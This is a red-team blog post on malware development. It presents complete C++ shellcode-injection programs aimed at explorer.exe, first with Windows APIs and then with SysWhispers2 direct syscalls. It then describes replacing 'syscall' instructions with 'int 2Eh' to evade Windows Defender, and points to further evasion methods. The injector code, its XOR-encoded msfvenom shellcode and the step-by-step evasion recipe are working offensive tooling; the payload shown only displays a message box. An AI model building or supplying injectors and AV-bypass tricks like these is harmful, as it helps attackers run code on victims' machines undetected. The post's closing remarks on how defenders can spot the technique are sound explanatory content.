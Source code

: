 ```yaml
---
layout: post
title: "When You sysWhisper Loud Enough for AV to Hear You"
date: 2021-11-18
categories: [redteam, maldev]
---
```


When I started my journey in Malware Development and AV/EDR Evasion, most of the articles and blog posts I have read recommended the use of **syscalls**. By using **syscalls**, an adversary can bypass detection controls (such as **user-land Hooking**) by jumping into the **kernel-mode**. Evasion is possible in this case since AV/EDR systems can only monitor an application's behaviour in **user-mode**. Another advantage is the fact that any Windows API functions used will not be referenced in the import table.

Implementing **syscalls** manually is challenging since the **syscall numbers** differ between OS versions, service packs and/or build numbers. Thankfully, [SysWhisper2](https://github.com/jthuraisamy/SysWhispers2) exists and did the tedious work for us by maintaining a lookup table of known **syscall numbers** for different Windows versions, service packs and/or build numbers.

Since the use of **syscalls** is recommended, I implemented it right away in the malware I'm building! However, the result I got was different from what I expected. The worse thing is Windows Defender caught my malware. I never thought Defender would flag it since the use of **syscalls** is an "advanced" evasion technique and Defender can be "easily" bypassed, right? 

Well, it turned out I was wrong! 

## The Baseline

The following code was used as the baseline in the malware I'm building. This code is an implementation of one of the most common process injection techniques.
```cpp
#include <Windows.h>

int main(int argc, char* argv[])
{
	// PID of explorer.exe
	DWORD pid = 23452;

	// msfvenom --payload windows/x64/messagebox TEXT="Hello there." EXITFUNC=thread -f c
	unsigned char shellcode[] = "\x9c\x28\xe1\x84\x90\x9f\x9f\x9f\x88\xb0\x60\x60\x60\x21\x31\x21\x30\x32\x31\x36\x28\x51\xb2\x05\x28\xeb\x32\x00\x5e\x28\xeb\x32\x78\x5e\x28\xeb\x32\x40\x5e\x28\xeb\x12\x30\x5e\x28\x6f\xd7\x2a\x2a\x2d\x51\xa9\x28\x51\xa0\xcc\x5c\x01\x1c\x62\x4c\x40\x21\xa1\xa9\x6d\x21\x61\xa1\x82\x8d\x32\x21\x31\x5e\x28\xeb\x32\x40\x5e\xeb\x22\x5c\x28\x61\xb0\x5e\xeb\xe0\xe8\x60\x60\x60\x28\xe5\xa0\x14\x0f\x28\x61\xb0\x30\x5e\xeb\x28\x78\x5e\x24\xeb\x20\x40\x29\x61\xb0\x83\x3c\x28\x9f\xa9\x5e\x21\xeb\x54\xe8\x28\x61\xb6\x2d\x51\xa9\x28\x51\xa0\xcc\x21\xa1\xa9\x6d\x21\x61\xa1\x58\x80\x15\x91\x5e\x2c\x63\x2c\x44\x68\x25\x59\xb1\x15\xb6\x38\x5e\x24\xeb\x20\x44\x29\x61\xb0\x06\x5e\x21\xeb\x6c\x28\x5e\x24\xeb\x20\x7c\x29\x61\xb0\x5e\x21\xeb\x64\xe8\x28\x61\xb0\x21\x38\x21\x38\x3e\x39\x3a\x21\x38\x21\x39\x21\x3a\x28\xe3\x8c\x40\x21\x32\x9f\x80\x38\x21\x39\x3a\x5e\x28\xeb\x72\x89\x29\x9f\x9f\x9f\x3d\x29\xa7\xa1\x60\x60\x60\x60\x5e\x28\xed\xf5\x7a\x61\x60\x60\x5e\x2c\xed\xe5\x47\x61\x60\x60\x28\x51\xa9\x21\xda\x25\xe3\x36\x67\x9f\xb5\xdb\x80\x7d\x4a\x6a\x21\xda\xc6\xf5\xdd\xfd\x9f\xb5\x28\xe3\xa4\x48\x5c\x66\x1c\x6a\xe0\x9b\x80\x15\x65\xdb\x27\x73\x12\x0f\x0a\x60\x39\x21\xe9\xba\x9f\xb5\x28\x05\x0c\x0c\x0f\x40\x14\x08\x05\x12\x05\x4e\x60\x2d\x05\x13\x13\x01\x07\x05\x22\x0f\x18\x60";
	SIZE_T shellcodeSize = sizeof(shellcode);

	// XOR-decrypt the shellcode
	char key = '`';
	for (int i = 0; i < sizeof(shellcode) - 1; i++) {
		shellcode[i] = shellcode[i] ^ key;
	}

	HANDLE processHandle;
	processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);

	PVOID baseAddress;
	baseAddress = VirtualAllocEx(processHandle, NULL, shellcodeSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

	WriteProcessMemory(processHandle, baseAddress, shellcode, shellcodeSize, NULL);

	HANDLE threadHandle;
	threadHandle = CreateRemoteThread(processHandle, NULL, 0, (LPTHREAD_START_ROUTINE)baseAddress, NULL, 0, NULL);

	CloseHandle(processHandle);

	return 0;
}
```

> _The shellcode was XOR-encrypted since shellcodes generated by `msfvenom` are heavily signatured and easily detected._

The baseline code didn't use any **syscalls** and as soon as it touched the disk, Defender caught it immediately.

![Windows Defender Flagged the Baseline Code](/static/img/17/baseline-caught-defender.png)

This is not surprising since almost all AVs look for a combination of Windows APIs such as `VirtualAllocEx`, `WriteProcessMemory`, and `CreateRemoteThread`, which are commonly used for malicious purposes.

## Implementing SysWhisper

Before implementing the use of **syscalls**, it is necessary to first identity the native/syscall equivalent of the Windows API used in the baseline code. This is shown in the right column of the table below.

|    Windows API     |       Native API         |
|:------------------:|:------------------------:|
|    OpenProcess     |      NtOpenProcess       |
|   VirtualAllocEx   | NtAllocateVirtualMemory  |
| WriteProcessMemory |    NtWriteVirtualMemory  |
| CreateRemoteThread |     NtCreateThreadEx     |
|    CloseHandle     |         NtClose          |

And here's the updated code which utilizes the use of **syscalls**. 

```cpp
#include <Windows.h>
#include "include/syscalls.h"

int main(int argc, char* argv[])
{
	// PID of explorer.exe
	DWORD pid = 23452;

	// msfvenom --payload windows/x64/messagebox TEXT="Hello there." EXITFUNC=thread -f c
	unsigned char shellcode[] = "\x9c\x28\xe1\x84\x90\x9f\x9f\x9f\x88\xb0\x60\x60\x60\x21\x31\x21\x30\x32\x31\x36\x28\x51\xb2\x05\x28\xeb\x32\x00\x5e\x28\xeb\x32\x78\x5e\x28\xeb\x32\x40\x5e\x28\xeb\x12\x30\x5e\x28\x6f\xd7\x2a\x2a\x2d\x51\xa9\x28\x51\xa0\xcc\x5c\x01\x1c\x62\x4c\x40\x21\xa1\xa9\x6d\x21\x61\xa1\x82\x8d\x32\x21\x31\x5e\x28\xeb\x32\x40\x5e\xeb\x22\x5c\x28\x61\xb0\x5e\xeb\xe0\xe8\x60\x60\x60\x28\xe5\xa0\x14\x0f\x28\x61\xb0\x30\x5e\xeb\x28\x78\x5e\x24\xeb\x20\x40\x29\x61\xb0\x83\x3c\x28\x9f\xa9\x5e\x21\xeb\x54\xe8\x28\x61\xb6\x2d\x51\xa9\x28\x51\xa0\xcc\x21\xa1\xa9\x6d\x21\x61\xa1\x58\x80\x15\x91\x5e\x2c\x63\x2c\x44\x68\x25\x59\xb1\x15\xb6\x38\x5e\x24\xeb\x20\x44\x29\x61\xb0\x06\x5e\x21\xeb\x6c\x28\x5e\x24\xeb\x20\x7c\x29\x61\xb0\x5e\x21\xeb\x64\xe8\x28\x61\xb0\x21\x38\x21\x38\x3e\x39\x3a\x21\x38\x21\x39\x21\x3a\x28\xe3\x8c\x40\x21\x32\x9f\x80\x38\x21\x39\x3a\x5e\x28\xeb\x72\x89\x29\x9f\x9f\x9f\x3d\x29\xa7\xa1\x60\x60\x60\x60\x5e\x28\xed\xf5\x7a\x61\x60\x60\x5e\x2c\xed\xe5\x47\x61\x60\x60\x28\x51\xa9\x21\xda\x25\xe3\x36\x67\x9f\xb5\xdb\x80\x7d\x4a\x6a\x21\xda\xc6\xf5\xdd\xfd\x9f\xb5\x28\xe3\xa4\x48\x5c\x66\x1c\x6a\xe0\x9b\x80\x15\x65\xdb\x27\x73\x12\x0f\x0a\x60\x39\x21\xe9\xba\x9f\xb5\x28\x05\x0c\x0c\x0f\x40\x14\x08\x05\x12\x05\x4e\x60\x2d\x05\x13\x13\x01\x07\x05\x22\x0f\x18\x60";
	SIZE_T shellcodeSize = sizeof(shellcode);

	// XOR-decrypt the shellcode
	char key = '`';
	for (int i = 0; i < sizeof(shellcode) - 1; i++) {
		shellcode[i] = shellcode[i] ^ key;
	}

	HANDLE processHandle;
	OBJECT_ATTRIBUTES objectAttributes = { sizeof(objectAttributes) };
	CLIENT_ID clientId = { (HANDLE)pid, NULL };
	NtOpenProcess(&processHandle, PROCESS_ALL_ACCESS, &objectAttributes, &clientId);

	LPVOID baseAddress = NULL;
	NtAllocateVirtualMemory(processHandle, &baseAddress, 0, &shellcodeSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

	NtWriteVirtualMemory(processHandle, baseAddress, &shellcode, sizeof(shellcode), NULL);

	HANDLE threadHandle;
	NtCreateThreadEx(&threadHandle, GENERIC_EXECUTE, NULL, processHandle, baseAddress, NULL, FALSE, 0, 0, 0, NULL);

	NtClose(processHandle);

	return 0;
}
```

> _The above code was written with the help of [SysWhisper2](https://github.com/jthuraisamy/SysWhispers2), which currently only supports x64. If you need x86, [SysWhispers2_x86](https://github.com/mai1zhi2/SysWhispers2_x86) can be used._

Now this should evade Defender, right? Unfortunately, **no**!  As seen here, Defender caught it again as soon as it touched the disk.

![Windows Defender Caught the Use of Syscalls](/static/img/17/syscall-caught-defender.png)


## What's Offending Defender?

Good thing a tool like [ThreatCheck](https://github.com/rasta-mouse/ThreatCheck) exists to identify the offending bytes in our malware. However, running this tool against our malware didn't provide any useful information.
```powershell
PS C:\RedTeam\ThreatCheck\ThreatCheck\ThreatCheck\bin\Release> .\ThreatCheck.exe -f C:\RedTeam\EvadeDefender\x64\Release\EvadeDefender.exe
[+] Target file size: 12800 bytes
[+] Analyzing...
[x] File is malicious, but couldn't identify bad bytes
```

When I rerun the tool, it provided a different result. But still not useful. 
```powershell
PS C:\RedTeam\ThreatCheck\ThreatCheck\ThreatCheck\bin\Release> .\ThreatCheck.exe -f C:\RedTeam\EvadeDefender\x64\Release\EvadeDefender.exe
[+] Target file size: 12800 bytes
[+] Analyzing...
[!] Identified end of bad bytes at offset 0x3170
00000000   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000010   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000020   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000030   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000040   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000050   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000060   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000070   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000080   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000090   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
000000A0   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
000000B0   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
000000C0   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
000000D0   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
000000E0   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
000000F0   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
```

Based on my observation, the tool provides different results when you run it several times. I'm not sure who's to blame, the tool or the AV. Anyway, after running it several times, I still didn't get anything useful.

After some Googling, I came across this [blog post](https://jmpesp.me/malware-analysis-syscalls-example/) which mentions that the use of **syscalls** can be easily identified by searching for the `syscall` instruction. By doing a "Text search" for the string "syscall", 5 occurrences were identified - which is right since there are 5 Native API functions used; `NtOpenProcess`, `NtAllocateVirtualMemory`, `NtWriteVirtualMemory`, `NtCreateThreadEx`, and `NtClose`.

![Using IDA to Search for the String "syscall"](/static/img/17/ida-search-syscall.png)

So Windows Defender might be looking for the `syscall` instructions within the binary and that's why it's getting detected.

## Now What?

One way to easily solve this issue and bypass Defender is to use the legacy instruction `int 2Eh`, which is used to make the switch from user-mode to kernel-mode. 

This can be done easily by looking for any `syscall` instructions within the `*.asm` output file of SysWhisper2 and changing them to `int 2Eh`.

![Changing "syscall" Instructions to "int 2Eh"](/static/img/17/int2eh.png)

And as soon as it touched the disk, Defender failed to detect it. Even when the binary was executed, Defender still failed to detect it.

![Windows Defender Bypassed](/static/img/17/defender-bypassed.png)

How about running it against multiple AVs? Turned out we have a [good detection rate.](https://www.virustotal.com/gui/file/10726c9be16af69d1d6ff05df8ae4c59c98dec051e1458139258959ad6ded55f?nocache=1)

![Virustotal Result](/static/img/17/virustotal-result.png)


## Are We Good Then?

It's true that we have achieved our goal of evading AVs using direct syscalls. However, the method presented can be easily signatured. Instead of looking for **syscall** instructions within the binary, defenders could also look for the presence of **int 2Eh** instructions.

![Searching for the "int 2Eh" instruction](/static/img/17/ida-search-2eh.png)

So what can we do about it as a red teamer? One way is to obfuscate the `*.asm` file by adding some "junk codes", or using polymorphic codes.

Another way is to dynamically resolve the syscall stubs during run-time as presented in the following:

- [Hell's Gate](https://github.com/am0nsec/HellsGate)
- [Retrieving ntdll Syscall Stubs from Disk at Run-time](https://www.ired.team/offensive-security/defense-evasion/retrieving-ntdll-syscall-stubs-at-run-time)

Note that while some of the methods mentioned could help in evading AVs/EDRs, especially bypassing the static signatures, I doubt it would work from the eyes of a seasoned incident responder or threat hunter.